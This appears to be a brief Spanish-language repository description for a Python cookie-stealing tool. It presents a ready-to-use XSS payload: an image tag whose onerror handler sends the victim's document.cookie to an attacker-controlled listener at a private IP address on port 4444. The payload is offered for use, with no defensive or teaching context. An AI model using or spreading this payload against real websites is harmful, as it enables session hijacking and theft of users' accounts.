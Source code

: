 Un script en python corto pero efectivo para con un XSS, hacer una solicitud de tipo GET y poder obtener las cookies del usuario de manera exitosa.

XSS: <img src=notexist onerror=this.src='http://192.168.8.109:4444/grab.py?'+document.cookie>
